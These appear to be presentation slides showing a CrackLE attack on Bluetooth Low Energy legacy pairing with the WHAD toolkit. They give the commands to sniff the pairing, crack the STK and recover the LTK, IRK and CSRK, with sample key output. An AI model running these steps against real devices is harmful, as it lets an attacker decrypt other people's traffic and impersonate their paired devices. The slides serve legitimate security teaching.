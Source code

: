 
# CrackLE attack with WHAD

![width:200px](img/crackle.png)

Sniffing the pairing process and the encrypted traffic:

```
$ wsniff -i uart0 ble -f | wdump pairing.pcap
```

Recovering the Short Term Key (STK):

```
$ wplay pairing.pcap | wanalyze legacy_pairing_cracking
[✓] legacy_pairing_cracking → completed
  - tk:  00000000000000000000000000000000
  - stk:  11223344112233441122334411223344
```

---

# CrackLE attack with WHAD

Recovering the distributed keys (LTK, IRK, CSRK):

```
$ wplay --flush pairing.pcap -d -k 11223344112233441122334411223344 \
 | wanalyze
[...]
[✓] ltk_distribution → completed
  - ltk:  2867a99de17e3548cc17cf16ef96050e
  - rand:  38a7dcd10a1a93c6
  - ediv:  29507

[✓] irk_distribution → completed
  - address:  74:da:ea:91:47:e3
  - irk:  13c3a68f113b764cc8e73f55fc52c002

[✓] csrk_distribution → completed
  - csrk:  c3062f93c91eef96354edcd70a1a0306
[...]
```

---
